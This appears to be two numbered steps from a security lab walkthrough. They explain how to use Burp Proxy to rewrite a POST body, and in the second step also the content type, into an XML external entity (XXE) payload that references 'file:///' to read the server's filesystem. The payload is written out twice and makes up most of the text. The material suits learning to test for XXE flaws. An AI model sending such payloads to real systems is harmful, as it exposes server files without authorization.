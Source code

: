 #3 - using burp proxy change the raw post

<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE comment [<!ENTITY root SYSTEM "file:///"> ]>
<comment><text>&root;test</text></comment>

#4 - using burp proxy change the content type to xml and change the raw post
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE comment [<!ENTITY root SYSTEM "file:///"> ]>
<comment><text>&root;test</text></comment>
